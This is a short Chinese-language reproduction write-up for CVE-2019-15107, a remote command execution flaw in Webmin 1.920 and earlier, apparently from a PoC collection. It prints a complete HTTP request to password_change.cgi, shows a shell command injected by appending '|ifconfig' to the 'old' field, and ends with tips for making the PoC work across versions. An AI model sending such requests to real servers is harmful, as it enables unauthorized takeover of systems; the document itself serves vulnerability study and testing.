


## 前言  

CVE-2019-15107 Webmin <= 1.920 远程命令执行漏洞,漏洞需要开启密码重置功能。

## 漏洞简介  

CVE-2019-15107 Webmin <= 1.920 远程命令执行漏洞，可以直接执行系统命令

## 漏洞危害  

直接执行命令，如果webmin权限大可以直接获取到系统最高权限

## 影响范围  

### 产品  

> Webmin

### 版本  

> Webmin <= 1.920 版本  

### 组件  

> Webmin  

## 漏洞复现  

首先开启密码重置功能:
在控制界面 https://ip:10000/webmin/edit_session.cgi?xnavigation=1


等待webmin重启，配置生效。查看webmin的配置文件，可以发现`passwd_mode`的值已经从`0`变为了`2`。
```shell
# cat /etc/webmin/miniserv.conf
...
passwd_mode=2
...
```


数据库包如下：

```raw
POST /password_change.cgi HTTP/1.1
Host: yourip:10000
Connection: close
Content-Length: 63
Cache-Control: max-age=0
Origin: https://yourip:10000
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: same-origin
Referer: https://yourip:10000/session_login.cgi
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: redirect=1; testing=1; sessiontest=1; sid=x

user=root&pam=1&expired=2&old=buyaoxiedaopocli&new1=buyaoxiedaopocli&new2=buyaoxiedaopocli
```

在参数`old`后加上`|ifconfig` 执行`ifconfig`命令。



如果user不存在，同样能执行命令



> PS: 1.910需要传入的user不存在，否则不能执行命令。不知道更老的版本会如何。建议为了全版本使用，POC最好传入一个不存在的user。

